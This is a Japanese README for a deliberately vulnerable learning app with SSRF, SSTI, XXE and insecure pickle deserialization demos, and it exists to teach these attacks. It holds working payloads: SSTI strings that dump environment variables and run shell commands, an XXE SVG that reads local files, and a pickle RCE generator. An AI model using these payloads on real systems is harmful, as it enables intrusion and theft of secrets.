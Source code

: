 # Vulnerable App for Learning

このアプリケーションは、SSRF (Server-Side Request Forgery) や SSTI (Server-Side Template Injection) などの脆弱性を学習するためのデモンストレーション環境です。
より実践的なシナリオを体験できるよう、複数の機能が実装されています。

## 🚀 セットアップ方法

1.  **Docker Desktop のインストール:**
    Docker Desktop がインストールされていることを確認してください。WSL2 環境を使用している場合は、WSL2 統合が有効になっていることを確認してください。

2.  **リポジトリのクローン:**
    ```bash
    git clone [このリポジトリのURL]
    cd vul_app1
    ```

3.  **アプリケーションの起動:**
    プロジェクトルートで以下のコマンドを実行します。
    ```bash
    docker compose up --build -d
    ```
    **注意:** ポート `5000` が既に他のプロセスで使用されている場合、起動に失敗することがあります。その場合は、`docker compose down` で既存のコンテナを停止するか、`docker-compose.yml` の `frontend` サービスの `ports` 設定を変更してください。

## 💡 使い方

アプリケーションは `http://localhost:5000` で動作します。
各ページで様々な脆弱性を試すことができます。

## 脆弱性のデモンストレーション

### 🌐 OGPプレビュー機能 (SSRFのデモンストレーション)

`http://localhost:5000/ssrf` にアクセスしてください。

1.  **正しい使い方 (OGPプレビュー):**
    *   `http://localhost:5000/sample` のURLをフォームに入力し、「プレビュー生成」ボタンをクリックしてください。
    *   OGP情報（タイトル、説明、画像）がカード形式で表示されます。

2.  **SSRF攻撃の実行:**
    *   フォームに以下のURLを入力し、「プレビュー生成」ボタンをクリックしてください。
    *   **内部APIへのアクセス:** `http://internal_api:5000/internal`
        *   本来外部からアクセスできないはずの内部APIの情報（データベース接続情報など）が表示されます。
    *   **ローカルファイルへのアクセス:** `file:///app/flag.txt`
        *   コンテナ内の `flag.txt` の内容が表示されます。

### 📝 社内メンバー紹介カード機能 (SSTIのデモンストレーション)

`http://localhost:5000/personalize` にアクセスしてください。

1.  **シナリオ:**
    社内メンバーのプロフィールカードを生成する機能です。「座右の銘」フィールドにテンプレート構文を直接入力できるため、SSTI (Server-Side Template Injection) の脆弱性が存在します。

2.  **SSTI攻撃の実行:**
    *   「座右の銘」に以下のペイロードを入力し、「カードを生成」ボタンをクリックしてください。
    *   **環境変数の窃取:**
        ```jinja2
        {{ lipsum.__globals__['os'].environ }}
        ```
        サーバーの環境変数を表示させます。
    *   **ファイル読み取り:**
        ```jinja2
        {{ lipsum.__globals__['__builtins__']['__import__']('os').popen('cat /app/flag.txt').read() }}
        ```
        コンテナ内の `flag.txt` の内容を読み取ります。

### 🖼️ SVGアップローダー機能 (XXEのデモンストレーション)

`http://localhost:5000/xxe` にアクセスしてください。

1.  **シナリオ:**
    SVG形式の画像をアップロードして表示する機能です。SVGはXMLベースのフォーマットであり、サーバー側のXMLパーサーが外部エンティティを解決してしまう設定になっているため、XXE (XML External Entity) 脆弱性が存在します。

2.  **XXE攻撃の実行:**
    *   以下の内容を `attack.svg` のようなファイル名で保存し、フォームからアップロードしてください。
    *   **ローカルファイルの読み取り:**
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [
          <!ENTITY xxe SYSTEM "file:///app/flag.txt">
        ]>
        <svg width="200" height="200" xmlns="http://www.w3.org/2000/svg">
          <text x="10" y="90" font-size="20">&xxe;</text>
        </svg>
        ```
        コンテナ内の `flag.txt` の内容が画像として表示されます。

### 📦 データインポート機能 (安全でないデシリアライゼーション)

`http://localhost:5000/deserialize` にアクセスしてください。

1.  **シナリオ:**
    Base64でエンコードされたデータを「インポート」して処理する機能です。バックエンドでは、受け取ったデータを信頼せずに `pickle` を使ってデシリアライズしているため、安全でないデシリアライゼーションの脆弱性が存在します。

2.  **リモートコード実行 (RCE) 攻撃の実行:**
    *   以下のPythonコードを実行して、悪意のあるペイロードを生成します。
        ```python
        import pickle
        import base64
        import os

        class RCE:
            def __reduce__(self):
                # 実行したいOSコマンド
                cmd = ('cat /app/flag.txt')
                return (os.system, (cmd,))

        pickled = pickle.dumps(RCE())
        print(base64.b64encode(pickled).decode())
        ```
    *   生成されたBase64文字列をフォームに貼り付けて「デシリアライズ」ボタンをクリックしてください。
    *   サーバー上でコマンドが実行され、`flag.txt` の内容がアプリケーションのログに出力されます。（Web画面上にはコマンドの実行結果そのものではなく、`0` のような終了コードが表示されることがあります）

## 🔒 内部API (直接アクセス不可)

`http://localhost:5000/internal` に直接アクセスしてみてください。
このAPIは外部に公開されていないため、ブラウザからはアクセスできないことを確認できます。